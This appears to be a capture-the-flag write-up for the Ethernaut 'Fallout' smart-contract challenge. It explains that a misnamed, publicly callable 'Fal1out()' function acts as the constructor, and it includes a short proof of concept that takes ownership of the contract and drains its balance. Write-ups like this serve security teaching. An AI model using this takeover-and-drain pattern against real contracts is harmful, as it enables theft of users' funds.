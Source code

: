 # Objective

- [] you claim ownership of the contract

# Proof of Concept

The contract does not use the `constructor()` function, but instead a publicly accessible function named `Fal1out()`. Any account that sends some Ether to this function will be set as the new `owner` of the contract.

```
falloutContract.Fal1out{value: 1 wei}();
assertEq(falloutContract.owner(), attacker);

falloutContract.collectAllocations();
assertEq(address(falloutContract).balance, 0);
```